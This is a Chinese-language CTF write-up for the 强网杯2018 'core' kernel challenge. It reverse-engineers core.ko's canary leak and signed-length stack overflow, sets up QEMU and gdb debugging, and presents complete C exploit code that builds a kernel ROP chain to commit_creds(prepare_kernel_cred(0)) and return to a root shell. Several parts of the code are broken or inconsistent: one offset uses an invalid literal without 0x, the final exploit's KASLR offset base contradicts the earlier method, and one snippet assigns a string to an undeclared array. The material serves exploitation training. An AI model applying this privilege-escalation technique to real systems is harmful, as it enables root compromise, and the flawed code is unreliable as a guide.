* `-masm=intel`：强制使用Intel语法汇编，便于逆向分析

测试每个程序中系统系统调用函数的内核程序的Canary是否一直在变！

```
[    0.028291] Spectre V2 : Spectre mitigation: LFENCE not serializing, switching to generic retpoe
udhcpc: started, v1.26.2
udhcpc: sending discover
udhcpc: sending select for 10.0.2.15
udhcpc: lease of 10.0.2.15 obtained, lease time 86400
/ # ls
bin          etc          init         linuxrc      root         tmp
core.ko      exploit      lib          proc         sbin         usr
dev          gen_cpio.sh  lib64        readcnary    sys          vmlinux
/ # ./readcnary 
Canary: 0xaf76f1ebf0270f00
/ # ./readcnary 
Canary: 0x89249a9a92962200
/ # ./readcnary 
Canary: 0xa5ffbdeedd11ca00
/ # ./readcnary 
Canary: 0x94189ae9be09f100
/ # ./readcnary 
Canary: 0x9b2b2aade4d17200
/ # ./readcnary 
Canary: 0xad3d92bb20885400
/ # ./readcnary 
Canary: 0xefe7982372614a00
/ # ./readcnary 
Canary: 0x526467545afe5c00
/ # ./readcnary 
Canary: 0x8966f8b8ae5d1200
/ # ./readcnary 
Canary: 0x32a7cc02b5308400
```

**现象分析**：每次系统重启后Canary值随机变化，证明Canary的值会随机变化

##### 修改core.cpio根文件系统的内容，以更好的辅助调试

修改init脚本实现调试增强：

```
#!/bin/sh
mount -t proc proc /proc
mount -t sysfs sysfs /sys
mount -t devtmpfs none /dev
/sbin/mdev -s
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts
chmod 666 /dev/ptmx

cat /proc/kallsyms > /tmp/kallsyms# 将内核符号表导出到 /tmp/kallsyms 文件，用于调试和分析
echo 1 > /proc/sys/kernel/kptr_restrict# 限制非特权用户访问内核符号地址
echo 1 > /proc/sys/kernel/dmesg_restrict# 限制非特权用户访问内核日志

ifconfig eth0 up
udhcpc -i eth0
ifconfig eth0 10.0.2.15 netmask 255.255.255.0
route add default gw 10.0.2.2 

# 加载内核模块 core.ko
insmod /core.ko
#poweroff -d 120 -f &  # 取消定时关机
# setsid /bin/cttyhack setuidgid 1000 /bin/sh  # 启动一个新的会话，并以 UID 1000 的用户身份运行 shell
setsid /bin/cttyhack setuidgid 0 /bin/sh    # 这样就有Root权限了
echo 'sh end!
' # 打印 shell 结束信息
umount /proc
umount /sys

# 立即强制关机
poweroff -d 0 -f
```

**关键修改说明**：

1. `/proc/kallsyms`导出后可通过`grep core_copy_func /tmp/kallsyms`快速定位函数地址
2. 解除dmesg限制后可通过`dmesg | grep vulnerability`追踪内核异常

将前面编译好的readcnary可执行程序也传入里面，再将整个文件系统重新打包为core.cpio，在使用start.sh启动！

​

##### start.sh脚本准备启动脚本

使用 QEMU 模拟内核环境，需关注内存分配、设备初始化及启动参数。下面是一个典型的 QEMU 启动脚本示例start.sh：

```
qemu-system-x86_64 \
-m 512M \
-kernel ./bzImage \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet nokaslr" \
-netdev user,id=t0 -device e1000,netdev=t0,id=nic0 \
-nographic

```

调试的时候我们可以先把kaslr关掉，这样就可以根据获取到函数的原始地址，后续再通过该值计算函数偏移

​

如果运行start.sh报错:

```
0.024687] Spectre V2 : Spectre mitigation: LFENCE not serializing, switching to generic retpoline
0.914765] Kernel panic - not syncing: Out of memory and no killable processes...
0.914765]
0.915174] Rebooting in 1 seconds..
```

说明：这个运行之后会报错,由于内存RAM分配不够,内存不足会导致启动错误，如 “Kernel panic - not syncing: Out of memory...”；适当调整内存参数是必需的。改为：-m 512M,1024M,2028M.....

##### gdb.sh脚本准备启动脚本

```
#!/bin/sh
pwndbg -q -ex "target remote localhost:1234" \
    -ex "add-symbol-file ./core.ko $1" \
    -ex "b core_copy_func" \
    -ex "b core_write" \
    -ex "b core_ioctl" \
    -ex "b* core_copy_func+0x3b" \
    -ex "c"
```

##### 直接开启调试模式

首先通过start.sh启动qemu，在启动start.sh，在进入qemu里面

准备开始调试：通过lsmod获取驱动基地址有root权限就可以获取基址：

```
[    0.025516] Spectre V2 : Spectre mitigation: LFENCE not serializing, switching to generic retpoline
udhcpc: started, v1.26.2
udhcpc: sending discover
udhcpc: sending select for 10.0.2.15
udhcpc: lease of 10.0.2.15 obtained, lease time 86400
/ # lsmod
core 16384 0 - Live 0xffffffffc02dc000 (O)
/ # 
```

如果是非root权限就无法看见基地址全是0，如果是自己的驱动有可能是符号表未被加载，导致全0：

```
[    0.025516] Spectre V2 : Spectre mitigation: LFENCE not serializing, switching to generic retpoline
udhcpc: started, v1.26.2
udhcpc: sending discover
udhcpc: sending select for 10.0.2.15
udhcpc: lease of 10.0.2.15 obtained, lease time 86400
/ # lsmod
core 16384 0 - Live 0x0000000000000000 (O)
```

获取到基地址就可以开始调试了：，将得到的基地址传入gdb脚本的第一个参数即可！启动gdb.sh运行刚刚放入进去的可执行程序，就可以成功开启调试了

成功！

```
ub20@ub20:~/KernelStu/KernelVuln/Kernel_ROP_basic/give_to_player$ bash ./gdb.sh 0xffffffffc0355000
Remote debugging using localhost:1234
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
0xffffffff8fc6e7d2 in ?? ()
add symbol table from file "./core.ko" at
        .text_addr = 0xffffffffc0355000
(y or n) y
Reading symbols from ./core.ko...
(No debugging symbols found in ./core.ko)
Breakpoint 1 at 0xffffffffc03550f6
Breakpoint 2 at 0xffffffffc0355011
Breakpoint 3 at 0xffffffffc035515f
Breakpoint 4 at 0xffffffffc0355131
Continuing.

Breakpoint 3, 0xffffffffc035515f in core_ioctl ()
(gdb) ni
0xffffffffc0355165 in core_ioctl ()
(gdb) 
```

## 五、实战以强网杯2018 - core内核Pwn题

### (一) 强网杯2018 - core 内核Pwn题简单分析汇总

**A. 基本信息**

* **题目名称**：强网杯2018 - core
* **内核版本**：4.15.8
* **考察知识**：Kernel ROP、内核模块漏洞利用

**B. 已启用的保护机制**

* **KASLR**（内核地址随机化）：防止攻击者直接获取函数地址，但可通过符号泄露绕过。
* **Stack Canary**（栈溢出保护）：存在一定的防护作用，但未必有效。
* **kptr\_restrict / dmesg\_restrict**：限制普通用户访问内核符号和日志，降低信息泄露风险。

**C. 漏洞利用便利性**

* 内核符号表 (`/proc/kallsyms`) 泄露，降低了KASLR的保护作用。
* `core.ko` 模块加载，攻击点主要集中在该模块。

### (二) 开始使用IDA分析在驱动文件core.ko

可以简单使用IDA查看一下core.ko的相关函数！如下图：

#### 模块初始化与 proc 文件创建

在 Linux 内核中，开发者可以通过加载模块的方式扩展内核功能。本文将介绍一个示例模块，其主要功能是在 `/proc` 目录下创建一个名为 `core` 的虚拟文件，通过对该文件的读写操作，实现内核数据与用户空间的交互。

```
// 定义模块初始化函数，返回值类型为 64 位整数
__int64 init_module()
{
    // 创建一个新的 proc 文件系统入口
    core_proc = proc_create("core", 438LL, 0LL, &core_fops);
    
    // 打印内核日志信息
    printk(&unk_2DE);
    
    return 0LL;
}
```

**init\_module()** 是Linux内核模块的入口函数，当模块被加载（insmod）时会调用此函数。

**proc\_create("core", 438LL, 0LL, &core\_fops)**:

* 在/proc文件系统中创建一个名为core的虚拟文件。
* 参数438LL是文件权限（八进制0666，即用户、组和其他人都有读写权限）。
* 参数0LL表示父目录为/proc根目录。
* &core\_fops 是一个指向文件操作结构体（struct file\_operations）的指针，用于定义用户空间与该虚拟文件交互时的行为。

#### 文件操作结构体 core\_fops 及其注册的函数

core\_fops 是一个struct file\_operations结构体，定义了对/proc/core文件的操作方法。

```
struct file_operations {
    struct module *owner;
    loff_t (*llseek) (struct file *, loff_t, int);
    ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
    ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
    long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
    int (*release) (struct inode *, struct file *);
    // 其他字段...
};
```

​

可以去这里看下详细数据：

```
.data:0000000000000420 40 05 00 00 00 00 00 00       core_fops dq offset __this_module
.data:0000000000000438 11 00 00 00 00 00 00 00       dq offset core_write
.data:0000000000000468 5F 01 00 00 00 00 00 00       dq offset core_ioctl
.data:0000000000000498 00 00 00 00 00 00 00 00       dq offset core_release
```

从数据段来看，core\_fops定义了以下几个字段：

* **owner**: dq offset \_\_this\_module，指向当前模块的struct module，用于模块引用计数，防止模块在被使用时卸载。
* **write**: dq offset core\_write，指向core\_write函数，表示写操作的处理函数。
* **unlocked\_ioctl**: dq offset core\_ioctl，指向core\_ioctl函数，表示ioctl控制操作的处理函数。
* **release**: dq offset core\_release，指向core\_release函数，表示文件关闭时的清理函数。
* 其他字段为00，表示未定义或未使用（如read、llseek等）。

​

当用户打开 `/proc/core` 文件进行操作（例如调用 write、read 等系统调用）时，内核会根据注册的 `core_fops` 结构体，转而调用上述各个函数，从而实现内核与用户空间的数据交互。

##### core\_fops结构体注册的函数core\_write

```
__int64 __fastcall core_write(__int64 a1, __int64 a2, unsigned __int64 a3)
{
  printk(&unk_215);
  if ( a3 <= 0x800 && !copy_from_user(&name, a2, a3) )
    return a3;
  printk(&unk_230);
  return 4294967282LL;
}
```

该函数使用 `copy_from_user` 将用户空间的数据拷贝到内核变量 `name` 中，并在写入数据超出预期大小时打印错误信息。

​

例如：

```
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/ioctl.h>

int main() {
    int fd;
    char buf[0x50];
    size_t canary;

    fd = open("/proc/core", 2); // 打开内核模块
    if (fd < 0) {
        printf("Failed to open /proc/core
");
        exit(-1);
    }
    rop_chain = "ROP"
    write(fd, rop_chain, 0x800);                   // 向bss段的name变量写入ROP链
    return 0;
}
```

也就是说大我们使用open打开虚拟文件`/proc/core`向这个文件进行操作的时候，比如调用write像这个fd进行操作的时候，会调用的不是系统默认的write函数，而是调用内核中注册的core\_write函数进行操作！

​

##### core\_fops结构体注册的函数core\_read

这个函数的作用就是将内核态中的堆栈数据，泄露到用户态度内存环境中：

```
unsigned __int64 __fastcall core_read(__int64 a1)
{
  char *v2; // rdi - 用于遍历和初始化数组的指针
  __int64 i; // rcx - 循环计数器
  unsigned __int64 result; // rax - 存储函数返回值
  char v5[64]; // [rsp+0h] [rbp-50h] BYREF - 64字节的缓冲区
  unsigned __int64 v6; // [rsp+40h] [rbp-10h] - 存储canary值，用于栈保护

  // 读取当前线程的栈保护canary值
  v6 = __readgsqword(0x28u);

  // 打印内核日志信息
  printk(&unk_25B);
  printk(&unk_275);

  // 初始化v5数组，每4个字节置0
  v2 = v5;
  for ( i = 16LL; i; --i )
  {
    *v2 = 0; // 将当前指针指向的位置置0
    v2 += 4; // 指针移动到下一个4字节位置
  }

  // 将字符串拷贝到v5缓冲区
  strcpy(v5, "Welcome to the QWB CTF challenge.
");

  // 将v5缓冲区中的数据拷贝到用户空间
  result = copy_to_user(a1, &v5[off], 64LL);

  // 如果拷贝成功，返回canary值的异或结果
  if ( !result )
    return __readgsqword(0x28u) ^ v6;

  // 交换GS寄存器，返回到用户空间
  __asm { swapgs }
  return result;
}
```

通过 `copy_to_user` 将数据复制到用户提供的地址。来实现从内核态向用户态泄露数据的功能。

##### core\_fops结构体注册的函数exit\_core

```
__int64 exit_core()
{
  __int64 result; // rax

  if ( core_proc )
    return remove_proc_entry("core");
  return result;
}
```

通过 `exit_core` 函数删除 proc 文件，完成模块卸载时的清理工作。

##### core\_fops结构体注册的函数core\_release

```
__int64 core_release()
{
  printk(&unk_204);
  return 0LL;
}
```

`core_release` 函数，当文件关闭时执行清理操作。

#### 3. IOCTL 接口及功能划分

内核模块通过 `core_ioctl` 提供了三个主要操作，其命令码分别为：

```
__int64 __fastcall core_ioctl(__int64 a1, int a2, __int64 a3)
{
  switch ( a2 )
  {
    case 0x6677889B:
      core_read(a3);
      break;
    case 0x6677889C:
      printk(&unk_2CD);
      off = a3;
      break;
    case 0x6677889A:
      printk(&unk_2B3);
      core_copy_func(a3);
      break;
  }
  return 0LL;
}
```

* **0x6677889A：** 调用 `core_copy_func`，触发栈溢出漏洞。
* **0x6677889B：** 调用 `core_read`，允许从内核栈上读取数据，进而泄露敏感数据（如 canary）。
* **0x6677889C：** 用于设置全局变量 `off`，影响 `core_read` 中数据的偏移。

#### 4. 利用漏洞泄露 canary — core\_read 函数

```
unsigned __int64 __fastcall core_read(__int64 a1)
{
  char v5[64];  // 64 字节缓冲区
  unsigned __int64 v6; 
  v6 = __readgsqword(0x28u);  // 读取当前线程的 canary

  // 打印内核日志信息
  printk(&unk_25B);
  printk(&unk_275);

  // 初始化 v5 数组
  for ( i = 16LL; i; --i )
    *v2 = 0, v2 += 4;

  // 将固定字符串拷贝到 v5 中
  strcpy(v5, "Welcome to the QWB CTF challenge.
");

  // 根据 off 变量，从 v5 中拷贝 64 字节数据到用户空间
  result = copy_to_user(a1, &v5[off], 64LL);

  // 若拷贝成功，返回两个 canary 异或的结果
  if ( !result )
    return __readgsqword(0x28u) ^ v6;

  __asm { swapgs }
  return result;
}
```

* canary 值调用 `__readgsqword(0x28u)` 后被放在栈上 ，并利用 `copy_to_user` 将栈上数据（从偏移 off 开始）传递给用户。
* 利用 ioctl 命令（0x6677889C）设置 `off` 为 64，即可以精确控制读取的偏移，从而将 canary 的值泄露给用户空间。

​

#### 5. 漏洞函数：core\_copy\_func 分析

```
__int64 __fastcall core_copy_func(__int64 a1)
{
  __int64 result; 
  _QWORD v2[10];  // 局部数组，位于栈上

  // 将 GS 寄存器偏移 0x28 的值读入，常用于栈保护（canary）
  v2[8] = __readgsqword(0x28u);

  // 打印调试信息
  printk(&unk_215);

  // 对拷贝长度进行判断，若大于 63 则报错
  if ( a1 > 63 )
  {
    printk(&unk_2A1);
    return 0xFFFFFFFFLL;
  }
  else
  {
    result = 0LL;
    // 将 bss 段上存储的 name 数据拷贝到栈上 v2 数组中，
    // 拷贝长度由 a1 指定，类型转换为 unsigned __int16
    qmemcpy(v2, &name, (unsigned __int16)a1);
  }
  return result;
}
```

**漏洞点：**

* **溢出问题：**由于使用低16位数值作为拷贝长度，如果传入一个“负数”（符号扩展后变为 0xffff），则可将最多 65535 字节数据复制到仅有 10 个元素的数组 `v2`（大致 80 字节）上，从而造成严重的栈溢出。
* **数据可控性：**被拷贝的数据来自 bss 段的 `name`，可控性较强，攻击者可以预先构造合适的数据以辅助 ROP 链的构造。

### (三) 以用户态利用ROP的视角来进行内核ROP的利用！

在用户态，我们通常利用ROP（Return Oriented Programming）绕过 NX 保护，通过精心构造的 ROP 链控制代码执行，实现权限提升或执行任意命令。在内核态，ROP 的利用方式与用户态类似，但会有一些概念上的区别。传统的用户态ROP利用是通过：寻找程序存在的漏洞，进行信息泄露，绕过保护机制Canary和aslr，ROP链构造，寻找溢出漏洞，写入ROP链，来执行`system("/bin/sh")`调用直接获取用户层Shell，核心是**用户空间权限的横向扩展**。**内核态ROP**：需调用`commit_creds(prepare_kernel_cred(0))`完成**提权到root**，核心是**内核态权限的纵向突破**

**​**

**如何获取和使用 Gadgets:**1.使用 `ropper` 提取 Gadgets安装完成后，你可以使用 `ropper` 从 `vmlinux` 镜像中提取 gadgets，并将结果保存到 `gadgets.txt` 文件中：

```
ropper --file vmlinux --all > gadgets.txt
```

​

2.使用 `ROPgadget` 提取 Gadgets你也可以使用 `ROPgadget` 工具来提取 gadgets，命令如下：

```
ROPgadget --binary ./vmlinux > gadgets1.txt
```

​

3.注意事项

* **使用正确的** `vmlinux` **文件**：如果你发现使用赛方提供的 `vmlinux` 文件提取的 gadgets 不准确，建议使用从 `bzImage` 提取的 `vmlinux` 文件。
* 提取 `vmlinux`：你可以使用 `extract-vmlinux` 工具从 `bzImage` 中提取 `vmlinux` 文件：工具的源码可以在 [linux/scripts/extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) 找到。

```
./extract-vmlinux ./bzImage > vmlinux
```

#### 1. 内核信息泄露：泄露Canary值和函数基地址和偏移，绕过内核保护机制Canary和Kaslr

根据前面对驱动文件的逆向分析，我们可以很快的想到泄露Canary值和函数地址偏移的方法！直接得到两个exp！

##### 泄露内核Canary值

下面这个是泄露Canary值的exp.c脚本：

```
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/ioctl.h>

void set_off_val(int fd, size_t off) {
    ioctl(fd, 0x6677889C, off); // 设置off变量的值
}

void core_read(int fd, char *buf) {
    ioctl(fd, 0x6677889B, buf); // 读取内核数据
}

int main() {
    int fd;
    char buf[0x50];
    size_t canary;

    fd = open("/proc/core", 2); // 打开内核模块
    if (fd < 0) {
        printf("Failed to open /proc/core
");
        exit(-1);
    }

    // 获取Canary值
    set_off_val(fd, 64); // 设置off变量的值为64
    core_read(fd, buf);  // 将指定内核地址的数据读取到buf中
    canary = ((size_t *)buf)[0]; // 提取Canary值

    printf("Canary: 0x%lx
", canary); // 输出Canary值

    // close(fd); // 关闭文件描述符
    // return 0;
}
```

利用的原理也很简单，通过set\_off\_val设置off变量的值为64，这个偏移正好就可以让core\_read函数读取到内核空间中Canary的值！从而能够成功泄露Canary!!

64这个偏移是如何计算出来的可以通过gdb调试内核来手动定位：想查看内部的细节可以直接在这个函数的位置下个断点，然后进入直接调试！计算Canary的偏移

调试脚本：

```
#!/bin/sh
gdb -q -ex "target remote localhost:1234" \
    -ex "add-symbol-file ./core.ko $1" \
    -ex "b* core_read+0xcc-0x63" \
    -ex "c"
```

查看内容！成功计算出偏移地址是64,所以可以调用驱动中的core\_read来读取Canary的值，从而来绕过栈溢出保护！

##### 函数基地址和偏移

首先启动qemu获取未开启内核地址随机化的时候的函数真实地址：

```
[    0.026329] Spectre V2 : Spectre mitigation: LFENCE not serializing, switching to generic retpoline
udhcpc: started, v1.26.2
udhcpc: sending discover
udhcpc: sending select for 10.0.2.15
udhcpc: lease of 10.0.2.15 obtained, lease time 86400
/ $ cat /tmp/kallsyms | grep "commit_creds"
ffffffff92a9c8e0 T commit_creds
```

之后就可以手戳出来一个泄露内核任意函数和gadget的exp！！！

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

#define POP_RDI_RET 0xffffffff81000b2f          // ROP gadget: pop rdi; ret
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a // ROP gadget: mov rdi, rax; call rdx
#define POP_RDX_RET 0xffffffff810a0f49          // ROP gadget: pop rdx; ret
#define POP_RCX_RET 0xffffffff81021e53          // ROP gadget: pop rcx; ret
#define SWAPGS_POPFQ_RET 0xffffffff81a012da    // ROP gadget: swapgs; popfq; ret
#define IRETQ 0xffffffff81050ac2               // ROP gadget: iretq

size_t commit_creds = 0, prepare_kernel_cred = 0; // 函数地址

int main(int argc, char ** argv)
{
    FILE *ksyms_file;
    int fd;
    char buf[0x50], type[0x10];
    size_t addr, offset;
    size_t rop_chain[0x100], i;

    // 打开符号表文件
    ksyms_file = fopen("/tmp/kallsyms", "r");
    if(ksyms_file == NULL) {
        puts("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m");
        exit(-1);
    }
    
    // 解析符号表获取函数地址
    while(fscanf(ksyms_file, "%lx %s %s", &addr, type, buf) == 3) {
        if(prepare_kernel_cred && commit_creds) break;
        if(!commit_creds && !strcmp(buf, "commit_creds")) {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_creds:\033[0m %lx
", commit_creds);
            continue;
        }
        if(!strcmp(buf, "prepare_kernel_cred")) {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m %lx
", prepare_kernel_cred);
            continue;
        }
    }
    
    fclose(ksyms_file);
    
    // 计算偏移,首先获取commit_creds未开启kaslr时候的地址，再减去开启kaslr的地址就得到了正确的偏移从而可以获得所有的函数地址
    offset = commit_creds - ffffffff92a9c8e0; 

    // 输出 ROP gadgets 的真实地址
    printf("\033[32m\033[1m[+] ROP Gadgets Real Addresses:\033[0m
");
    printf("POP_RDI_RET: 0x%lx
", POP_RDI_RET + offset);
    printf("MOV_RDI_RAX_CALL_RDX: 0x%lx
", MOV_RDI_RAX_CALL_RDX + offset);
    printf("POP_RDX_RET: 0x%lx
", POP_RDX_RET + offset);
    printf("POP_RCX_RET: 0x%lx
", POP_RCX_RET + offset);
    printf("SWAPGS_POPFQ_RET: 0x%lx
", SWAPGS_POPFQ_RET + offset);
    printf("IRETQ: 0x%lx
", IRETQ + offset);
    return 0;
}
```

原理是此前内核符号表又已经被拷贝到了`/tmp/kallsyms`下，我们便可以从中读取各个内核符号的地址,如果在/proc/kallsyms下需要root权限才可以读取,在`/tmp/kallsyms`所有用户都可以读取，所以即使开启了kaslr也可以获得指定函数的真实地址！

#### 2.构造内核ROP链:寻找状态切换的gadget和提权函数

构造内核ROP链与用户态ROP链的主要区别在于**状态切换**。由于内核ROP链执行完毕后，最终需要**返回用户态**以获取一个具有root权限的shell，因此必须实现从**内核运行状态**到**用户运行状态**的切换。

为了实现这一目标，我们需要关注三个关键概念：

1. **状态保存**：在内核态执行ROP链之前，保存用户态的寄存器状态，以便在返回用户态时恢复。
2. **返回用户态**：在内核ROP链执行完毕后，通过特定的gadget或系统调用返回到用户态。
3. **提权函数**：在内核态中调用提权函数，将当前进程的权限提升为root。

​

在 [这篇博客](https://arttnba3.cn/2021/02/21/OS-0X00-LINUX-KERNEL-PART-I/#IV-%E5%86%85%E6%A0%B8%E6%80%81-%E2%80%94-gt-%E7%94%A8%E6%88%B7%E6%80%81) 当中笔者简要叙述了内核态返回用户态的过程!

​

##### 状态保存

在内核ROP链执行之前，我们需要**手动模拟用户态进入内核态的准备工作**，即保存各寄存器的值到内核栈上。通常情况下，可以使用以下步骤来保存寄存器的值：

方便起见，使用了内联汇编，编译时需要指定参数：`-masm=intel`

```
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}
```

在这个函数中，我们将用户态的寄存器值保存到预定义的变量中，以便在构造ROP链时使用。

##### 寻找状态切换的gadget

为了从内核态返回到用户态，我们需要在内核代码中找到合适的gadget。这些gadget通常包括：

* **iretq**：用于从内核态返回到用户态，恢复用户态的寄存器状态。
* **swapgs**：用于切换GS寄存器，从内核态返回到用户态时使用。
* **sysretq**：用于从系统调用返回到用户态。

在内核中，可以通过工具如`ROPgadget`或`objdump`来寻找这些gadget。例如：

```
ROPgadget --binary vmlinux | grep iretq
ROPgadget --binary vmlinux | grep swapgs
```

##### 提权函数

在内核ROP链中，通常需要调用一些提权函数来提升当前进程的权限。常见的提权函数包括：

* **commit\_creds(prepare\_kernel\_cred(0))**：将当前进程的权限提升为root。
* **switch\_task\_namespaces**：切换进程的命名空间，通常用于容器逃逸。

##### 构造一个完整的内核ROP链

那么我们只需要在内核中找到相应的gadget并执行`swapgs;iretq`就可以成功着陆回用户态通常来说，我们应当构造如下rop链以返回用户态并获得一个shell：

```
↓   swapgs
    iretq
    user_shell_addr
    user_cs
    user_eflags //64bit user_rflags
    user_sp
    user_ss
```

现在只需要定位一下函数的溢出长度就可以成功构造内核ROP链了!

最后调试栈溢出位置即可！调试脚本：

```
#!/bin/sh
gdb -q -ex "target remote localhost:1234" \
    -ex "add-symbol-file ./core.ko $1" \
    -ex "b* core_copy_func+0x12F-0xF6" \
    -ex "c"
```

成功大选断点查看一些栈中的情况可以发现溢出的长度正好是8X10个字节!

计算出溢出的长度后就可以直接构造了,我们需要完成的部分：user\_shell\_addr

```
    // 构造ROP链
    for(i = 0; i < 10; i++) rop_chain[i] = canary; // 填充canary
    rop_chain[i++] = POP_RDI_RET + offset;         // 设置rdi
    rop_chain[i++] = 0;                            // 参数0
    rop_chain[i++] = prepare_kernel_cred;          // 调用prepare_kernel_cred
    rop_chain[i++] = POP_RDX_RET + offset;         // 设置rdx
    rop_chain[i++] = POP_RCX_RET + offset;         // 清理栈
    rop_chain[i++] = MOV_RDI_RAX_CALL_RDX + offset;// 将rax赋值给rdi并调用rdx
    rop_chain[i++] = commit_creds;                 // 调用commit_creds
    rop_chain[i++] = SWAPGS_POPFQ_RET + offset;    // 切换上下文
    rop_chain[i++] = 0;                            // 填充
    rop_chain[i++] = IRETQ + offset;               // 返回用户态
    rop_chain[i++] = (size_t)get_root_shell;       // 执行root shell
    rop_chain[i++] = user_cs;                      // 恢复用户态寄存器
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp;
    rop_chain[i++] = user_ss;
```

#### 3.使用最终的exp.c实现内核提权

由于是内核态的rop，故我们需要手动返回用户态执行`/bin/sh`，这里我们需要模拟由用户态进入内核态再返回用户态的过程:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

#define POP_RDI_RET 0xffffffff81000b2f          // ROP gadget: pop rdi; ret
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a // ROP gadget: mov rdi, rax; call rdx
#define POP_RDX_RET 0xffffffff810a0f49          // ROP gadget: pop rdx; ret
#define POP_RCX_RET 0xffffffff81021e53          // ROP gadget: pop rcx; ret
#define SWAPGS_POPFQ_RET 0xffffffff81a012da    // ROP gadget: swapgs; popfq; ret
#define IRETQ 0xffffffff81050ac2               // ROP gadget: iretq

size_t commit_creds = 0, prepare_kernel_cred = 0; // 函数地址

size_t user_cs, user_ss, user_rflags, user_sp;   // 用户态寄存器状态
void save_status()
{
    asm volatile (
        "mov user_cs, cs;"   // 保存用户态CS
        "mov user_ss, ss;"   // 保存用户态SS
        "mov user_sp, rsp;"  // 保存用户态RSP
        "pushf;"             // 保存用户态标志寄存器
        "pop user_rflags;"
    );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m"); // 输出状态已保存
}

void get_root_shell(void)
{
    if(getuid()) { // 检查是否获取root权限
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(-1);
    }
    puts("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m");
    system("/bin/sh"); // 启动root shell
}

void core_read(int fd, char * buf)
{
    ioctl(fd, 0x6677889B, buf); // 读取内核数据
}

void set_off_val(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off); // 设置偏移值
}

void core_copy(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes); // 复制数据
}

int main(int argc, char ** argv)
{
    FILE *ksyms_file;
    int fd;
    char buf[0x50], type[0x10];
    size_t addr, offset, canary;
    size_t rop_chain[0x100], i;

    puts("\033[34m\033[1m[*] Start to exploit...\033[0m"); // 开始利用
    save_status();

    fd = open("/proc/core", 2); // 打开内核模块
    if(fd <0) {
        puts("\033[31m\033[1m[x] Failed to open the /proc/core !\033[0m");
        exit(-1);
    }

    ksyms_file = fopen("/tmp/kallsyms", "r"); // 打开符号表文件
    if(ksyms_file == NULL) {
        puts("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m");
        exit(-1);
    }

    // 解析符号表获取函数地址
    while(fscanf(ksyms_file, "%lx%s%s", &addr, type, buf)) {
        if(prepare_kernel_cred && commit_creds) break;
        if(!commit_creds && !strcmp(buf, "commit_creds")) {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%lx
", commit_creds);
            continue;
        }
        if(!strcmp(buf, "prepare_kernel_cred")) {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%lx
", prepare_kernel_cred);
            continue;
        }
    }

    offset = commit_creds - 0xffffffffc0000000; // 计算偏移

    // 获取canary值
    set_off_val(fd, 64);
    core_read(fd, buf);
    canary = ((size_t *)buf)[0];

    // 构造ROP链
    for(i = 0; i < 10; i++) rop_chain[i] = canary; // 填充canary
    rop_chain[i++] = POP_RDI_RET + offset;         // 设置rdi
    rop_chain[i++] = 0;                            // 参数0
    rop_chain[i++] = prepare_kernel_cred;          // 调用prepare_kernel_cred
    rop_chain[i++] = POP_RDX_RET + offset;         // 设置rdx
    rop_chain[i++] = POP_RCX_RET + offset;         // 清理栈
    rop_chain[i++] = MOV_RDI_RAX_CALL_RDX + offset;// 将rax赋值给rdi并调用rdx
    rop_chain[i++] = commit_creds;                 // 调用commit_creds
    rop_chain[i++] = SWAPGS_POPFQ_RET + offset;    // 切换上下文
    rop_chain[i++] = 0;                            // 填充
    rop_chain[i++] = IRETQ + offset;               // 返回用户态
    rop_chain[i++] = (size_t)get_root_shell;       // 执行root shell
    rop_chain[i++] = user_cs;                      // 恢复用户态寄存器
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp;
    rop_chain[i++] = user_ss;

    write(fd, rop_chain, 0x800);                   // 写ROP链向bss段的name
    // 写入负数实现溢出漏洞,将name的数据复制到栈上从而实现溢出漏洞
    core_copy(fd, 0xffffffffffff0000 | (0x100));   
}
```

编译:

```
gcc ./exp.c -o exploit -static -masm=intel
```

成功:

#### **用户态与内核态ROP对比表**

|  |  |  |
| --- | --- | --- |
| **特征** | **用户态ROP** | **内核态ROP** |
| **目标函数** | `system("/bin/sh")` | `commit_creds(prepare_kernel_cred(0))` |
| **状态切换** | 无需额外操作 | `swapgs` + `iretq`恢复用户态 |
| **保护机制** | NX、ASLR | KASLR、Canary |
| **信息泄露依赖** | Libc基址、栈地址 | 内核符号表、Canary值 |

## 附录

相关参考链接感谢大佬的文章!!!

* [文章 - kernel pwn从小白到大神(一) - 先知社区](https://xz.aliyun.com/news/15130)
